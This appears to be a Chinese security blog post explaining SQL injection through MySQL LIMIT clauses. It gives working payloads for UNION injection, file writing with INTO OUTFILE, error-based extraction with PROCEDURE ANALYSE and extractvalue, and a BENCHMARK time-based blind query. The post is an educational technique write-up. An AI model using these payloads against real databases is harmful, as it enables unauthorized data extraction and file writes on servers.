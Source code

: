 ```yaml
---
layout: post
title:  "SQL注入之limit注入"
date:   2018-01-25 21:41:45 +0800
categories: [SQL注入, limit注入]
---
```

> 这个limit注入为何拿出来提呢？定有它的特别之处
# 0X00 官方文档中的 limit
```sql
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
      [PARTITION partition_list]
    [WHERE where_condition]
    [GROUP BY {col_name | expr | position}
      [ASC | DESC], ... [WITH ROLLUP]]
    [HAVING where_condition]
    [ORDER BY {col_name | expr | position}
      [ASC | DESC], ...]
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
    [INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]
```
和之前的order by注入的文档是同一个，都是介绍select的文档，不过和order by不同的是limit后面可以跟的内容中没有表达式，并且可以使用的关键字有限只有两个“INTO file”、“procedure” 

# 0X01 单独的limit
单独的limit的出现的话，其实并不常见，其的利用方式除了前面介绍的limit后面的两个关键字外，还可以使用union，union是mysql 4.0版本出现的一个新的特性，也就是说union使用条件是mysql>4.0，由于mysql 4.0出现在2003年，现在遇到的mysql基本都可以满足这个条件，利用的话就像下面这样

```sql
mysql> select * from users limit 1 union select 1,2,3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
|  1 | 2        | 3        |
+----+----------+----------+
```
没什么特别的

# 0X02 order by之后的limit
首先介绍下为什么这种情况的话比较的多，原因其实也简单，如果order by出现在union的子句中，那么必须加上limit，否则order by不生效，官方文档说明如下

```
Use of ORDER BY for individual SELECT statements implies nothing about the order in which the rows appear in the final result because UNION by default produces an unordered set of rows. Therefore, the use of ORDER BY in this context is typically in conjunction with LIMIT, so that it is used to determine the subset of the selected rows to retrieve for the SELECT, even though it does not necessarily affect the order of those rows in the final UNION result. If ORDER BY appears without LIMIT in a SELECT, it is optimized away because it will have no effect anyway.
```

这种情况下我们将不能再利用union，原因很简单，详见[SQL注入之order by注入](http://lietolive.com/sql/order%20by%E6%B3%A8%E5%85%A5/2018/01/13/SQL%E6%B3%A8%E5%85%A5orderBy%E6%B3%A8%E5%85%A5.html)。于是，我们的选择只剩下“INTO file” 和 “procedure”

1. “INTO file”写文件

```sql
mysql> select * from users order by id limit 1 into outfile '/xxxxx/1.txt';
```

2. procedure

```shell
PROCEDURE ANALYSE() is deprecated as of MySQL 5.7.18, and is removed in MySQL 8.0
```
但是之前wooyunZone上得出的结论是只有5.0<mysql<5.66才可以，所以我本地也没有复线，总结下利用方式吧

报错
```shell
select * from users order by id limit 1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
```

时间 - 只能使用BENCHMARK
```shell
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
```

# 0X03 参考

1、[Testing for MySQL](https://www.owasp.org/index.php/Testing_for_MySQL)

2、[mysql4.0 4.1 5.0 三个版本的特性对比](http://kong1616.iteye.com/blog/674561)

3、[UNION Syntax](https://dev.mysql.com/doc/refman/5.7/en/union.html)

4、[Using PROCEDURE ANALYSE](https://dev.mysql.com/doc/refman/5.7/en/procedure-analyse.html)
